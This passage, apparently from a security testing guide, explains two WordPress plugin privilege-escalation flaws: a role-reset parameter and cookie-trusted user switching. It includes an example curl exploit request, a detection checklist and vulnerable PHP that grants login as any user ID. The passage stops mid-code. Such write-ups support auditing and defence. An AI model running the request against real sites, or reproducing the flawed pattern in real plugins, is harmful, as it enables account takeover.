 Why it’s exploitable

- Trusts `$_REQUEST['reset-for']` and a plugin option without server-side authorization.
- If a user previously had higher privileges saved in `_asenha_view_admin_as_original_roles` and was downgraded, they can restore them by hitting the reset path.
- In some deployments, any authenticated user could trigger a reset for another username still present in `viewing_admin_as_role_are` (broken authorization).

Exploitation (example)

```bash
# While logged in as the downgraded user (or any auth user able to trigger the code path),
# hit any route that executes the role-switcher logic and include the reset parameter.
# The plugin uses $_REQUEST, so GET or POST works. The exact route depends on the plugin hooks.
curl -s -k -b 'wordpress_logged_in=...' \
  'https://victim.example/wp-admin/?reset-for=<your_username>'
```

On vulnerable builds this removes current roles and re-adds the saved original roles (e.g., `administrator`), effectively escalating privileges.

Detection checklist

- Look for role-switching features that persist “original roles” in user meta (e.g., `_asenha_view_admin_as_original_roles`).
- Identify reset/restore paths that:
  - Read usernames from `$_REQUEST` / `$_GET` / `$_POST`.
  - Modify roles via `add_role()` / `remove_role()` without `current_user_can()` and `wp_verify_nonce()` / `check_admin_referer()`.
  - Authorize based on a plugin option array (e.g., `viewing_admin_as_role_are`) instead of the actor’s capabilities.

---

### Unauthenticated privilege escalation via cookie‑trusted user switching on public init (Service Finder “sf-booking”)

Some plugins wire user-switching helpers to the public `init` hook and derive identity from a client-controlled cookie. If the code calls `wp_set_auth_cookie()` without verifying authentication, capability and a valid nonce, any unauthenticated visitor can force login as an arbitrary user ID.

Typical vulnerable pattern (simplified from Service Finder Bookings ≤ 6.1):

```php
function service_finder_submit_user_form(){
    if ( isset($_GET['switch_user']) && is_numeric($_GET['switch_user']) ) {
        $user_id = intval( sanitize_text_field($_GET['switch_user']) );
        service_finder_switch_user($user_id);
    }
    if ( isset($_GET['switch_back']) ) {
        service_finder_switch_back();
    }
}
add_action('init', 'service_finder_submit_user_form');

function service_finder_switch_back() {
    if ( isset($_COOKIE['original_user_id']) ) {
        $uid = intval($_COOKIE['original_user_id']);
        if ( get_userdata($uid) ) {
            wp_set_current_user($uid);
            wp_set_auth_cookie($uid);  // 🔥 sets auth for attacker-chosen UID
            do_action('wp_login', get_userdata($uid)->user_login, get_userdata($uid));
            setcookie('original_user_id', '', time() - 3600, '/');
            wp_redirect( admin_url('admin.php?page=candidates') );
            exit;
        }
        wp_die('Original user not found.');
    }
```